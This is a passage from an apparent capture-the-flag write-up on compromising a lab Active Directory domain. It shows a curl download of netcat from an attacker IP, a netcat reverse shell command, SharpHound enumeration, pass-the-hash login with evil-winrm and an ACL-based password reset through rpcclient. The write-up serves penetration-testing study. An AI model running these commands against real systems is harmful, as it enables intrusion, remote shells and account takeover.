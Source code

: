 ```powershell
curl http://10.8.0.136/nc64.exe -o C:/Windows/Temp/nc.exe
```


<img src="https://i.imgur.com/CYqtoWW.png"/>

Now executing it while having our netcat listener ready

```powershell
C:/Windows/Temp/nc.exe 10.8.0.136 2222 -e cmd.exe
```

<img src="https://i.imgur.com/w5OCEcC.png"/>

## Intended (ewalters)

I wasn't able to run `python-bloodhound`, not sure what was the issue, since we have SYSTEM user on LABDC, I decided to enumerate `lab.trusted.vl` domain with sharphound.exe by downloading it through our python server

<img src="https://i.imgur.com/4ust9x8.png"/>

We can then download this through evil-winrm, since we have the administrator hash from the dump

<img src="https://i.imgur.com/rlCFB4N.png"/>

Running bloodhound on the json files we got from sharphound, we can see a path from `rsmith` to `ewalters` by having `ForceChangePassword` ACL on ewalters, we can change the password and login by either WinRM or RDP since it has `CanPSRemote` permissions on the host 

<img src="https://i.imgur.com/7ANfiBB.png"/>

Through `rpcclient`, ewalters's password can be changed

```bash
setuserinfo2 ewalters 23 'Ewwalter@123456'
```

<img src="https://i.imgur.com/HORXjoP.png"/>

With cme we can verify if the password is actually updated and we can login through WinRM

<img src="https://i.imgur.com/PYst5Z9.png"/>

<img src="https://i.imgur.com/gszCpfd.png"/>

In `C:/` drive, there was a folder `AVTest` which had `readme.txt` talking about Christine to run AV tools

<img src="https://i.imgur.com/LOh1ZPQ.png"/>

Using `smbserver.py` to transfer `KasperskyRemovalTool.exe`

<img src="https://i.imgur.com/L1DHLQD.png"/>
<img src="https://i.imgur.com/Cmkq6QJ.png"/>
